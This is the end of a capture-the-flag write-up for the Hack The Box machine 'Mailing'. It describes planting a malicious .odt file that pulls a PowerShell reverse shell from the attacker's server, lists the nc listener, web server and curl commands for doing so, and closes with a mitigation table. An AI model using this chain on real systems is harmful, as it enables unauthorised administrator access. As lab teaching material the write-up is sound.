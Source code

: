 Navigating the file system shows a directory with the name `C:\Important Documents` which is a likely candidate. Let's upload the file there

#### Understanding the exploit chain

- Malicious `.odt` file was created. 
- .odt is put onto victim machine in a folder that will likely be accessed by an administrator
- .odt file executes, grabbing the reverse shell from our simple web server
- power shell script executes, connecting back to us as admin

```bash
# Start python web server on attacker machine, hosting the malicious powershell reverse shell script
python3 -m http.server 8000

# Start another web server, hosting the .odt file
python3 -m http.server 9002

# Start the nc listener to grab the reverse powershell exploit
nc -lvnp 9001

# Grab the .odt file from the victim machine  (from the Important Documents directory)
curl -o pwned.odt http://10.10.14.36:9001/exploit.
```

![Exploited](/assets/images/HTB%20-%20Mailing/Reverse%20Shell%20ODT%20esclation.png)

GG, we've rooted Mailing!

## Vulnerabilities & Mitigation's

| **Vulnerability**               | **Description**                                                                                                                                                                           | **Mitigation**                                                                                                                 |
|---------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------|
| **Local File Inclusion (LFI)**  | An LFI vulnerability was exploited in the PHP script by manipulating the `file` parameter, allowing access to sensitive files like `hMailServer.ini`.                                        | Proper input validation and sanitization. Limit file access to whitelisted directories.                                         |
| **Weak Password Cracking**      | The password hash obtained from `hMailServer.ini` was weak and cracked, providing access to the system.                                                                                     | Enforce strong password policies, use salted hashes, and ensure regular password updates.                                       |
| **Outdated LibreOffice Exploit** | After cracking the password, an outdated version of LibreOffice was abused to gain further system access or elevate privileges.                                                             | Regularly update software to patch known vulnerabilities, and restrict user access to potentially vulnerable applications.      |
